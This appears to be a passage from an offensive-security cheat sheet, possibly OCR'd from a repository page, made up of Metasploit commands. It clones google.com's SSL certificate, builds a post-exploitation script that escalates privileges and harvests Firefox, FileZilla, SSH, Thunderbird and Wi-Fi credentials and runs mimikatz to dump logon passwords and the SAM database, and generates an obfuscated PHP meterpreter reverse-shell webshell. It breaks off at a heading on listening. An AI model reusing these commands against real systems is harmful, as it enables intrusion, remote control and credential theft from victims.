 ```bash
rm -rf /home/$USER/.msf4/loot/*
msfconsole -qx "
    use auxiliary/gather/impersonate_ssl;
    set RHOSTS google.com;
    run;
    exit"
```

_Define ENV Cert_

```bash
CERT=/home/$USER/.msf4/loot/$(find /home/$USER/.msf4/loot/ -type f -name "*.pem" -printf "%f\n" | head -n 1)
```

_Post-EXP_

```bash
cat > /tmp/post-exp.rc << EOF
getprivs
getsystem
run multi/gather/firefox_creds DECRYPT=true
run multi/gather/filezilla_client_cred
run multi/gather/ssh_creds
run multi/gather/thunderbird_creds
run multi/gather/wlan_geolocate
mimikatz
privilege::debug
sekurlsa::logonpasswords
lsadump::sam
bg
EOF
```

_Generate Webshell_

```bash
msfvenom -p php/meterpreter/reverse_tcp \
         LHOST=$NGHOST \
         PORT=$NGPORT \
         HandlerSSLCert=$CERT \
         StagerVerifySSLCert=true \
         PayloadUUIDTracking=true \
         PayloadUUIDName=StagedPHP \
         EnableStageEncoding=true \
         -f raw \
         -e php/base64 \
         -i 3 \
         -o /tmp/unk9vvn.php; \
sed -i "s#eval#<?php eval#g" /tmp/unk9vvn.php; \
sed -i "s#));#)); ?>#g" /tmp/unk9vvn.php
```

_Listening Metasploit_
